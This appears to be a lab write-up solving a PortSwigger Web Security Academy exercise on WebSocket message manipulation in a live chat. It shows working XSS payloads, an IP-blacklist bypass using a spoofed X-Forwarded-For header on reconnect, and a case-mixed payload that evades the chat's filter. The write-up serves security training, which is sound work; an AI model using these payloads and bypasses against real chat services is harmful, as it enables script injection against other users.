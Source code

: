 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6e817eca-e648-4084-93ac-f12138a74ac1)

## Overview :

## Solution :

Clickin on *Live chat*, we are taken to a page where we are able to chat with another user.

When we send a XSS payload in the chat, the chat is **disconnected.**

```js
<img src=1 onerror='alert(1)'>
```
![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a9c985d5-9ebc-48b3-b7cb-a8729760cf4e)

In the **WebSockets History** tab, we can see the requests & responses from both th client and server side.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5be6f0e8-6944-48f2-bba4-41d2016e6828)

In one of the request to the server, the following XSS data is sent in JSON format.

```
{"message":"&lt;img src=1 onerror=&#39;alert(1)&#39;&gt;"}
```

Since it is flagged as malicious message , the attack has been blocked & the connection is disconnected. 

Now we can't send any message since our **IP is blocked.**

### Reconnect to a disconnected socket -

Send the request to Repeater tab.

If we try to reconnect by using the **Reconnect** button, the response says that **our IP address is blacklisted**
![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fdfd943b-070b-43ea-9bc7-b72c7e5781c9)

Click on the **Pencil icon** on the top to **Select a websocket.**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1f472562-4299-4879-aa37-940252146802)

Add `X-Forwarded-For: 1.1.1.1` in the connection request.
   
```http
GET /chat HTTP/1.1
Host: 0a19004c03e7aff780e8051000b70091.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
X-Forwarded-For:1.1.1.1
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Sec-WebSocket-Version: 13
Origin: https://0a19004c03e7aff780e8051000b70091.web-security-academy.net
Sec-WebSocket-Key: A8icuxTILQ+zv9El+okv9g==
Connection: keep-alive, Upgrade
Cookie: session=uuhm54U4DRhGLcbXMXAuUYwkvqNwpYFB
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: websocket
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket
```

The response still shows that we are blacklisted. But now if we change the message value to *Hey* & send the request, we can see the response from the other user. Meaning **we have sucessfully bypassed the blacklisting.**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5c4c49db-fcc6-4e09-a090-0d1691e4e7c4)

Now we can modify the XSS payload in the message such that it bypass the defenses that are in place.

```json
{
"message":"<img src=1 oNeRrOr=alert`1`>"
}
```
This time our payload is not detected nor we are blacklisted , instead we get a reply from the other user. Which means the XSS payload got triggered at the end user's side.

After the end user receives the message , he user replies the following.

```json
{
"user":"Hal Pline",
"content":"I can't hear you. I can't hear you. I can't hear you. I'm just kidding, but that was funny"
}
```
Now the lab is solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/84be750b-30a5-49f4-92bb-bec30424b745)

